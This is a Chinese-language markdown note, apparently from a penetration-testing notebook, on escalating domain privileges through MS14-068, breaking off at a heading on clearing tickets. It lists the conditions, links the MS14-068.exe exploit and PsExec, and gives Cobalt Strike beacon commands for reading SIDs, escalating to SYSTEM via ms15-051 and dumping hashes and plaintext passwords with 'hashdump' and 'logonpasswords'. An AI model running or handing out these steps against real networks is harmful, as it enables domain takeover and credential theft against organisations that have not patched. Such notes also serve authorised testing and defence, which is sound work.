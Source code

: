 # 域内权限提升

## MS14-068

### 利用条件

> 1. 域控没有安装`MS14-068`的补丁`KB3011780`
> 2. 拥有一台域内主机权限
> 3. 具有普通域用户密码、`Hash`值以及用户`SUID`

### 漏洞利用

- 利用工具

  ```shell
  MS14-068.exe: https://github.com/abatchy17/WindowsExploits/tree/master/MS14-068
  Psexec:https://github.com/crupper/Forensics-Tool-Wiki/blob/master/windowsTools/PsExec64.exe
  ```

#### 漏洞检测

查看是否安装`KB3011780`补丁来判断是否存在漏洞，一般在域中补丁都是批量安装的

```
wmic qfe
```

#### 获取域用户SID

**cobaltstrike**

```beacon
shell whoami /all

域用户SID: S-1-5-21-2756371121-2868759905-3853650604-1001
域SID: S-1-5-21-2756371121-2868759905-3853650604
```

#### 获取域用户Hash

由于是域普通用户，想要获取`Hash`值，需要提权到`SYSTEM`权限
直接执行`getsystem`无法提权，需要通过提权漏洞得到`SYSTEM`权限，这里我们通过`ms15-051`得到`SYSTEM`权限的`beacon`

获取hash

```
hashdump
```

获取密码

```
logonpasswords
```

#### 清除当前用户票据
